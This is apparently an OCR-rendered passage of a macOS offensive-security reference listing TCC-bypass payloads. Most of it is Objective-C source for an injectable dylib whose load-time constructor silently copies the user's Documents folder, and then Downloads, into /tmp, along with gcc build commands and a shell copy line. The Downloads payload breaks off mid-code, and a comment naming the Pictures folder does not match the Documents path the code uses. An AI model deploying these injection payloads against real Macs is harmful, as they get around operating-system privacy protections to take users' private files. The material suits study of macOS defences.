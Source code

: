```
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Documents"];
    NSString *tmpPhotosPath = @"/tmp/documents";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
```

**Shell**
Copy `$HOME/`Documents to `/tmp/documents`.

```bash
cp -r "$HOME/Documents" "/tmp/documents"
```
```


### Downloads

- **Entitlement**: None
- **TCC**: `kTCCServiceSystemPolicyDownloadsFolder`

**ObjetiveC**
Copy `$HOME/Downloads` to `/tmp/downloads`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;

    // Get the path to the user's Pictures folder
```